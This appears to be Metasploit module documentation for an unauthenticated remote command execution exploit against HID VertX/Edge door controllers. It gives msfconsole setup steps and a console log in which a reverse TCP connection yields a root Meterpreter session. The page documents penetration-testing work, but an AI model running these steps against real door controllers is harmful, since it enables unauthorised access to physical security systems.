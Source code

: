 ## Description

  This module exploits an unauthenticated remote command execution
  vulnerability in the `discoveryd` service exposed by HID VertX and Edge
  door controllers.


## Vulnerable Application

  This module was tested successfully on a HID Edge model EH400
  with firmware version 2.3.1.603 (Build 04/23/2012).


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/linux/misc/hid_discoveryd_command_blink_on_unauth_rce`
  3. `set rhost [IP]`
  4. `set lhost [IP]`
  5. `run`
  6. You should get a *root* session


## Scenarios

  ```
  msf > use exploit/linux/misc/hid_discoveryd_command_blink_on_unauth_rce 
  msf exploit(linux/misc/hid_discoveryd_command_blink_on_unauth_rce) > set rhosts 10.123.123.123
  rhosts => 10.123.123.123
  msf exploit(linux/misc/hid_discoveryd_command_blink_on_unauth_rce) > set lhost 10.1.1.197
  lhost => 10.1.1.197
  msf exploit(linux/misc/hid_discoveryd_command_blink_on_unauth_rce) > run

  [*] Started reverse TCP handler on 10.1.1.197:4444 
  [*] 10.123.123.123:4070 - Connecting to target
  [*] Command Stager progress -   0.29% done (26/8993 bytes)
  [*] Command Stager progress -   0.58% done (52/8993 bytes)
  [*] Command Stager progress -   0.87% done (78/8993 bytes)
  [*] Command Stager progress -   1.16% done (104/8993 bytes)
  [...]
  [*] Command Stager progress -  98.88% done (8892/8993 bytes)
  [*] Command Stager progress -  99.17% done (8918/8993 bytes)
  [*] Command Stager progress -  99.46% done (8944/8993 bytes)
  [*] Command Stager progress -  99.68% done (8964/8993 bytes)
  [*] Sending stage (806208 bytes) to 10.123.123.123
  [*] Command Stager progress - 100.00% done (8993/8993 bytes)

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 10.123.123.123
  OS           :  (Linux 2.6.28)
  Architecture : armv5tejl
  BuildTuple   : armv5l-linux-musleabi
  Meterpreter  : armle/linux
  meterpreter > 
  ```

